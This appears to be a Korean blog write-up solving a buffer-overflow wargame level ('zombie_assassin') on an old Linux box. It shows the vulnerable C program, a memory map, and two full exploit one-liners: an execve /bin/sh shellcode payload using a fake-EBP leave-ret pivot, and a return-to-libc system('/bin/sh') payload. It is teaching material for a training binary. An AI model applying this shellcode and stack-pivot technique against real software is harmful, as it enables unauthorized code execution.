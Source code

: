 ```yaml
---
layout: post
title:  "[LOB]Level16. zombie_assassin"
subtitle:   "[LOB]assassin → zombie_assassin"
categories: LOB
tags:
- Wargame
- LOB
- Write-up
---
```


## Keyword : fake ebp

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - zombie_assassin
        - FEBP
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack retbayed you!\n");
		exit(0);
	}

        if(argv[1][47] == '\x40')
        {
                printf("library retbayed you, too!!\n");
                exit(0);
        }

	// strncpy instead of strcpy!
	strncpy(buffer, argv[1], 48);
	printf("%s\n", buffer);
}
```

분기문을 통해서 '\xbf', '\x40' 으로 시작하는 주소들을 모두 필터링 된다.

```assembly
[assassin@localhost assassin]$ cat /proc/751/maps
08048000-0817d000 r-xp 00000000 08:05 129443     /usr/bin/gdb
0817d000-08184000 rw-p 00134000 08:05 129443     /usr/bin/gdb
08184000-0850f000 rwxp 00000000 00:00 0
40000000-40013000 r-xp 00000000 08:08 34138      /lib/ld-2.1.3.so
40013000-40014000 rw-p 00012000 08:08 34138      /lib/ld-2.1.3.so
40014000-40018000 rw-p 00000000 00:00 0
40018000-4004d000 r-xp 00000000 08:05 96962      /usr/lib/libncurses.so.4.0
4004d000-40056000 rw-p 00034000 08:05 96962      /usr/lib/libncurses.so.4.0
40056000-4005a000 rw-p 00000000 00:00 0
4005a000-40076000 r-xp 00000000 08:08 34156      /lib/libm-2.1.3.so
40076000-40077000 rw-p 0001b000 08:08 34156      /lib/libm-2.1.3.so
40077000-40164000 r-xp 00000000 08:08 34145      /lib/libc-2.1.3.so
40164000-40168000 rw-p 000ec000 08:08 34145      /lib/libc-2.1.3.so
40168000-4016c000 rw-p 00000000 00:00 0
4016c000-40182000 r--p 00000000 08:05 32279      /usr/share/locale/en_US/LC_CTYPE
40182000-40290000 rw-p 00000000 00:00 0
bfffb000-c0000000 rwxp ffffc000 00:00 0
```

#### Shellcode를 이용한 공격



##### shellcode(24byte) :

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80



##### payload 시나리오 :

```sh
./zombie_assassin `python -c print "&[buf+4]"+"shellcode(24byte)"+"\x90"*12+"&[buf-4]"+"&leave-ret 가젯"
```



&[buf-4] : 0xbffffaac

&leave-ret : 0x08048311

&[buf+4] : 0xbffffab4



> gdb 통해 얻은 buf의 주소와 실제 구동되는 buf의 주소가 0x10주소 만큼 차이가 나서 삽질을 많이 했다.
>
> leave-ret 을 이용하여 fakeEBP기법을 사용하면 esp가 buf+4 로 이동하기 때문에 buf-4의 주소를 넣어주어야 실제 buf 주소가 실행된다.
>
> eip에는 shellcode가 있는 시작 주소가 들어가야 하기 때문에, buf시작 부분에 shellcode의 시작 주소를 넣어주었다.



##### payload 실제코드 :

```sh
./zombie_assassin `python -c 'print "\xb4\xfa\xff\xbf"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x90"*12+"\xac\xfa\xff\xbf"+"\x11\x83\x04\x08"'`
```



------



#### RTL (Return to Library)를 이용한 공격

##### exploit 시나리오 :

./zombie_assassin `python -c print "&system()"+"\x90"*4+"&["/bin/sh"]"+"\x90"*38+"&[buf-4]"+"&leave-ret 가젯"

&[buf-4] : 0xbffffaac

&[buf+4] : 0xbffffab4

&leave-ret : 0x08048311

&system() : 0x40058ae0

&"/bin/sh" : 0x400fbff9



##### exploit 실제코드:

```sh
./zombie_assassin `python -c 'print "\xe0\x8a\x05\x40"+"\x90"*4+"\xf9\xbf\x0f\x40"+"\x90"*28+"\xac\xfa\xff\xbf"+"\x11\x83\x04\x08"'`
```



#### zombie_assassin / no place to hide